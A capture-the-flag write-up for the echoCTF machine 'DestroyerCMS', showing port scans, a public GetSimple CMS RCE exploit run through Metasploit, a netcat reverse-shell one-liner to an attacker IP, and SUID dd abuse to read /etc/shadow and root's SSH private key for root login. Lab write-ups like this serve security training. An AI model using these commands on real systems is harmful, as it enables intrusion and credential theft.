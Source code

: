 ```yaml
---
description: >-
  DestroyerCMS echoCTF Machine
title: DestroyerCMS (Intermediate)                # Add title here
date: 2025-01-23 08:00:00 -0600                           # Change the date to match completion date
categories: [echoCTF, Intermediate]                     # Change Templates to Writeup
tags: []     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: true                                    # Change this to true
image: /assets/img/icons/Destroyercms.png                # Add infocard image here for post preview image
---
```

##### Host entries
```bash
10.0.160.222    destroyercms.echocity-f.com
```

### Content

-   GetSimpleCMS RCE exploit
-   SUID privilege escalation

### Reconnaissance

Initial reconnaissance for TCP ports
```bash
# Nmap 7.94SVN scan initiated Thu Jan 23 23:31:07 2025 as: nmap -p- -sS --open --min-rate 500 -Pn -n -vvvv -oG allPorts 10.0.160.222
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.0.160.222 ()   Status: Up
Host: 10.0.160.222 ()   Ports: 22/open/tcp//ssh///, 80/open/tcp//http///
# Nmap done at Thu Jan 23 23:34:40 2025 -- 1 IP address (1 host up) scanned in 212.81 seconds
```

Services and Versions running:
```bash
# Nmap 7.94SVN scan initiated Thu Jan 23 23:36:49 2025 as: nmap -p22,80 -sCV -n -Pn -vvvv -oN targeted 10.0.160.222
Nmap scan report for 10.0.160.222
Host is up, received user-set (0.17s latency).
Scanned at 2025-01-23 23:36:50 EST for 42s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   256 59:f2:44:81:7e:39:44:a2:74:78:01:f4:41:9d:3c:32 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHrsjVfK8kJ4w0XD3dHLYJmvvzVETjkYlbeoYVFk8aHpq9fngAgZvUDDnDekezCzkEP0yYOq4NIP1/mGsLFQ/G4=
|   256 41:6c:06:38:b6:c4:81:32:3a:da:93:34:8e:5e:52:9b (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBcNlnBiNe1SHe160w0K6u9YfowdzTrYEeVIYZHKyZ+7
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.61 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Welcome to GetSimple! - simple
| http-robots.txt: 1 disallowed entry 
|_/admin/
|_http-server-header: Apache/2.4.61 (Debian)
```

### Exploitation

Checking service HTTP on port 80 I discovered that there is a page that is not shown correctly, so I hover my mouse on top of the "Home" hyperlink to check if there is a host that is not being recognized: 
![](/assets/img/Pasted-image-20250123223859.png)

So, let's add it to the hosts file:
```bash
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters


10.0.160.222    destroyercms.echocity-f.com
```

Finally, I can see the full page with all the visual content:
![](/assets/img/Pasted-image-20250123224310.png)

Searching for this GetSimple CMS I found a public [RCE exploit](https://www.exploit-db.com/exploits/51475) that is easily exploited via metasploit:

![](/assets/img/Pasted-image-20250123224647.png)

After setting all the details, a meterpreter session is opened:

![](/assets/img/Pasted-image-20250123224824.png)

Note.- It is possibl to start a normal shell with command `shell` in meterpreter and using `nc`

```bash
meterpreter > shell
Process 183 created.
Channel 0 created.

nc -c bash 10.10.5.122 2345
```

### Privilege Escalation

By running looking for SUID binaries we identify that there is a SUID binary `dd` that has special privilege flag:
```bash
www-data@destroyercms:/tmp$ find / -perm -4000 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/sudo
/bin/su
/bin/umount
/bin/dd
/bin/mount
```

This binary has an special entry in [GTFObin](https://gtfobins.github.io/gtfobins/dd/) which allows an user to read and write files:

![](/assets/img/Pasted-image-20250123231808.png)

I then proceed to read the `/etc/shadow` file to verify if this is correct, and surprise I can read the file:
```bash
www-data@destroyercms:/tmp$ /bin/dd if=/etc/shadow
root:*:19458:0:99999:7:::
daemon:*:19458:0:99999:7:::
bin:*:19458:0:99999:7:::
sys:*:19458:0:99999:7:::
sync:*:19458:0:99999:7:::
games:*:19458:0:99999:7:::
man:*:19458:0:99999:7:::
lp:*:19458:0:99999:7:::
mail:*:19458:0:99999:7:::
news:*:19458:0:99999:7:::
uucp:*:19458:0:99999:7:::
proxy:*:19458:0:99999:7:::
www-data:*:19458:0:99999:7:::
backup:*:19458:0:99999:7:::
list:*:19458:0:99999:7:::
irc:*:19458:0:99999:7:::
gnats:*:19458:0:99999:7:::
nobody:*:19458:0:99999:7:::
_apt:*:19458:0:99999:7:::
mysql:!:19965:0:99999:7:::
sshd:*:19965:0:99999:7:::
ETSCTF:ETSCTF_<REDACTED>:19965:0:99999:7:::
```

This means that we can read files within /root directory, such as `/root/.ssh/id_rsa`:
```bash
www-data@destroyercms:/tmp$ /bin/dd if=/root/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
<REDACTED>
```

Then we can save this id_rsa private key to access via ssh (don't forget chmod 600):
```bash
└─$ ssh -i id_rsa root@10.0.160.222  
The authenticity of host '10.0.160.222 (10.0.160.222)' can't be established.
ED25519 key fingerprint is SHA256:qPvHgmIzb2YH68N6uMkwoHTkCXjfKLqBYeuEnUc5FZo.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
root@destroyercms:~#
```

### Post Exploitation
Flags are stored at:

`/etc/passwd`
`/etc/shadow`
`environment variables`
`/root`

### Credentials
Find id_rsa for user root using dd binary with SUID

### Notes

-   Always look for public exploits on CMS specially those that are verified and have metasploit PoC
-   Look for SUID binaries, privilege escalation simple commands are key (if not, use linpeas.sh)

### References

- [GetSimple CMS RCE exploit](https://www.exploit-db.com/exploits/51475)
- [GTFObin dd binary](https://gtfobins.github.io/gtfobins/dd/)
